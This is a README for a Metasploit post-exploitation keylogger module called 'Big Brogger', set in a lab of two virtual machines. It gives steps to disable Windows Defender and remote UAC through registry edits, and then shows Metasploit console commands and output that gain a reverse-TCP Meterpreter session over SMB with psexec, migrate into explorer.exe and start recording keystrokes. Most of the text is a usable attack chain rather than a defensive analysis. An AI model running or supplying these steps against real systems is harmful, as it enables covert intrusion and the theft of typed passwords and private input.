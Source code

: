 # Big Brogger
A Metasploit module that captures keystrokes on compromised Windows machines.

## Requirements
- Kali Linux virtual machine with Metasploit
- Windows 10 virtual machine

## Getting Started
Before attacking, you need to install and make the Windows machine vulnerable. You can find a guide to help you [here](https://medium.com/@bmatth21/how-to-setup-windows-10-vm-lab-for-hacking-608592d550f2).

### Disabling Windows Defender Real-Time Protection

In order to proceed effectively with the post-exploitation module, it's essential to disable Windows Defender's real-time protection. There are two methods to achieve this:

1. **Via Windows Security Interface:**
    - Navigate to `Windows Security > Virus & threat protection > Real-time protection`. Please note that this method only disables real-time protection temporarily.

2. **Via Registry Editor:**
    - Press `Windows + R` to open the Run dialog.
    - Type `regedit` and hit Enter to open the Registry Editor.
    - Navigate to `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender`.
    - Create a new DWORD (32-bit) value named `DisableAntiSpyware` and set its value to `1`.



### Disabling Remote UAC (User Account Control)

To complete the setup, it's crucial to disable Remote UAC. Follow these steps:

1. **Open a Command Prompt as Administrator:**
    - Right-click on the Command Prompt icon.
    - Select "Run as administrator".

2. **Execute the Following Command:**
    ```
    REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
    ```
    This command will modify the registry to disable Remote UAC.

## How to use
This a post module so you will have to get access to the Windows machine. You can do it by any means but we will use `windows/smb/psexec` in Metasploit for the demonstration.

First, use psexec to get a session with a valid credential:
```
msf > use windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/smb/psexec) > set RHOST 10.0.2.15
RHOST => 10.0.2.15
msf exploit(windows/smb/psexec) > set SMBUser admin
SMBUser => admin
msf exploit(windows/smb/psexec) > set SMBPass admin
SMBPass => admin
msf exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.0.2.4:4444
[*] 10.0.2.15:445 - Connecting to the server...
[*] 10.0.2.15:445 - Authenticating to 10.0.2.15:445 as user 'admin'...
[*] 10.0.2.15:445 - Selecting PowerShell target
[*] 10.0.2.15:445 - Executing the payload...
[*] Sending stage (175686 bytes) to 10.0.2.15
[+] 10.0.2.15:445 - Service start timed out, OK if running a command or non-service executable...
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.15:49870) at 2024-03-23 22:38:49 +0100

meterpreter >
```

Then, you can background the meterpreter session and run the keylogger:
```
msf6 exploit(windows/smb/psexec) > use xtests/big_brogger
msf6 post(xtests/big_brogger) > set SESSION 1
SESSION => 1
msf6 post(xtests/big_brogger) > run

[*] Migrating to explorer.exe...
[+] Successfully migrated to explorer.exe.
[*] Keylogger started...
```

To exit, simply press `Ctrl+C`.